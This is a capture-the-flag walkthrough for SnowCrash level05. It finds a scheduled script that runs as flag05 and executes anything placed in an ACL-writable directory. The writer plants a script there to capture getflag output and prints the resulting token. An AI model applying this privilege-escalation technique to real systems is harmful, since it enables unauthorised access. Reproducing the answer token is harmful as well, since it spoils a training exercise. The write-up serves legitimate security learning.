 # Level05

## Walkthrough

First, let's check if some files exist in the home directory.

```bash
level05@SnowCrash:~$ ls -la
total 12
dr-xr-x---+ 1 level05 level05  100 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level05 level05  220 Apr  3  2012 .bash_logout
-r-x------  1 level05 level05 3518 Aug 30  2015 .bashrc
-r-x------  1 level05 level05  675 Apr  3  2012 .profile
```

Nothing.  
Let's try to find files owned by the `flag05` user.

```bash
level05@SnowCrash:~$ find / -type f -user flag05 2>/dev/null
/usr/sbin/openarenaserver
/rofs/usr/sbin/openarenaserver
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver 
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
level05@SnowCrash:~$ cat /rofs/usr/sbin/openarenaserver 
cat: /rofs/usr/sbin/openarenaserver: Permission denied
```

We find a script `/usr/sbin/openarenaserver` which runs any other scripts found in directory `/opt/openarenaserver`, then deletes them after execution.

Let's check if we have the permissions to create a file in this directory.

```bash
level05@SnowCrash:~$ ls -la /opt | grep openarenaserver
drwxrwxr-x+ 2 root root  40 Feb  8 20:41 openarenaserver
```

The directory is owned by user `root` and group `root`, and others can only read or execute...  
But there is more: the trailing `+` character in the permissions means that the file has extended permissions ([ACL](https://en.wikipedia.org/wiki/Access-control_list)).


```bash
level05@SnowCrash:~$ getfacl /opt/openarenaserver/
getfacl: Removing leading '/' from absolute path names
# file: opt/openarenaserver/
# owner: root
# group: root
user::rwx
user:level05:rwx
user:flag05:rwx
group::r-x
mask::rwx
other::r-x
default:user::rwx
default:user:level05:rwx
default:user:flag05:rwx
default:group::r-x
default:mask::rwx
default:other::r-x
```

By reading the output of the `getfacl` command, we notice that the user `level05` has read, write and execute permissions on this directory.  
To obtain the flag, we simply have to create a shell script that will store the result of the `getflag` command in a file.

```bash
level05@SnowCrash:~$ mkdir /tmp/level05 && touch /tmp/level05/result
level05@SnowCrash:~$ chmod 666 /tmp/level05/result
level05@SnowCrash:~$ echo 'getflag > /tmp/level05/result' > /opt/openarenaserver/script.sh
```

But as seen in the previous permissions, we cannot run the `/usr/sbin/openarenaserver` script, maybe it's running on interval?  
Let's wait...  
Unfortunately, nothing happens. Seconds tick by and our script is still present and our `result` file empty. But after 5 or less minutes, our script is deleted and the output of the `getflag` command is printed inside `result`.

```bash
level05@SnowCrash:~$ cat /tmp/level05/result
Check flag.Here is your token : viuaaale9huek52boumoomioc
```

## Resources

[What does a + mean at the end of the permissions from ls -l?](https://serverfault.com/questions/227852/what-does-a-mean-at-the-end-of-the-permissions-from-ls-l)
